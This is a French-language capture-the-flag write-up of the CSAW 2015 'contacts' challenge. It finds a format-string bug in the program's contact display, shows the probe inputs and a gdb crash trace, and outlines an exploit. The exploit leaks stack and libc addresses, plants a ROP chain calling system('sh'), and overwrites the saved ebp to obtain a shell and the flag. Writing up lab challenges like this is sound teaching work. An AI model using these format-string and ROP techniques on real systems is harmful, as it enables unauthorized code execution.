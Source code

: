```yaml
---
title: CSAW-preq 2015 - Contacts (exploitable 250)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge 'contacts' du CSAW ctf 2015.


### **Analyse**

```
$ rop-tool info ./exploit250
     ===== INFOS =====
    Filename                 ./exploit250
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x80485c0
    Loadables segments       2
    Sections                 28

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled

```

Pour ce challenge, je suis resté sur de l'analyse dynamique.

```
 $ ./contacts
 Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On a donc un programme qui permet de créer/détruire/éditer/afficher des contacts.

On découvre assez vite une vulnérabilité de type 'format string' dans la fonction permettant d'afficher les contacts :

```
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 10
            Enter description:
                    %x%x%x
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 4
    Contacts:
            Name: A
            Length 10
            Phone #: 0000000000
            Description: 9ee9358ecf4620b0
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On remarque, qu'en écrivant à l'adresse du 6ème argument, on est capable de réécrire un saved-ebp, et donc de rediriger le flux d'exécution si on arrive à avoir des données sous notre controle sur la stack :

```
$ gdb ./exploit250
     gdb-peda$ r
     warning: Cannot call inferior functions, Linux kernel PaX protection forbids return to non-executable pages!
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 100
            Enter description:
                    AAAA%6$n
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
>>> 4
    Contacts:
            Name: A
            Length 100
            Phone #: 0000000000
            Description: AAAA
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 5
    Thanks for trying out the demo, sadly your contacts are now erased

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xf27e7da8
    EDX: 0xf27e8870
    ESI: 0x1
    EDI: 0xf27e7000
    EBP: 0x4
    ESP: 0xfdc022f0
    EIP: 0x80487d1
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x80487d1
    [------------------------------------stack-------------------------------------]
    Invalid $SP address: 0xfdc022f0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x080487d1 in ?? ()
    gdb-peda$ x/2i $eip
    => 0x80487d1:   leave
       0x80487d2:   ret
    gdb-peda$ x $ebp
       0x4: Cannot access memory at address 0x4
```


### *Exploitation*


#### 0x00

Grace à la format string, je leak l'adresse de la stack (6ème argument) et de la libc (2nd argument)

#### 0x01

Je créer un contact afin de mettre des données que je controle sur la stack. Il s'agit d'une rop chain, faisant simplement un system("sh").

Afin d'augmenter les chances de retomber dessus, je rajoute au début un rop sled (une suite de ret).

#### 0x02

Ensuite, je réécrit les 2 bytes de poids faible du saved-ebp (6ème argument présent sur la stack), afin de faire pointer esp sur ma rop-chain au moment du ret.

#### 0x03

Il nous reste plus qu'à quitter le programme, afin que notre fonction retourne, et retombe sur notre rop-chain...


La difficulté majeure à laquelle j'ai été confronté, était que je n'avais aucune idée de quelle libc était utilisée sur le serveur distant...

Mais après quelques essais, j'ai tout de même réussi à retrouver les bons offsets principalement grâce à ce répo github : [libc-database](https://github.com/niklasb/libc-database)


```
    $ perl sploit.pl
    [+] Stack: 0xfff3e788
    [+] Libc: 0xf7604000
    [+] puts: 0xf7668c10
    [+] system: 0xf7643cd0
    [+] Enjoy your shell !
    $ ls
    contacts_54f3188f64e548565bc1b87d7aa07427
    flag
    $ cat flag
    flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```


[exploit](https://github.com/t00sh/ctf/blob/master/2015/csaw-preq/exploit250.pl)

[binaire](https://repo.t0x0sh.org/ctf/2014/csaw-preq/exploit250)